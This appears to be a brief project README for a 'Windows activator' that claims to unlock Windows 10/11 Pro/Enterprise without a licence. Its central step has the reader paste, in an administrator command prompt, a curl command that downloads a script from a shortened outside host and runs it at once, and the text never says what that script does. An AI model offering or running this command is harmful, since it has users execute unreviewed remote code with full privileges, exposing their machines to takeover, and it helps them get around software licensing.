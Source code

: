 # What is windows activator?
Windows activator is a windows upgrader using cmd only. It is for
developers using an upgraded version of windows.
# How to do it
You can activate it by pasting the command below using admin cmd. You need to have wmic first before 
running this command.
```bash
curl -L keyms.id/aw11 -o aw11.cmd & aw11.cmd
```
After waiting a few minutes on seeing some bahasa titles, your new windows is activated.
# After you do this
After you do this, windows 11/10 pro/enterprise should be activated. 
If this is helpful, please consider starring this project to support me on making more project like this. Thanks!
***
Credits : Pixelated11
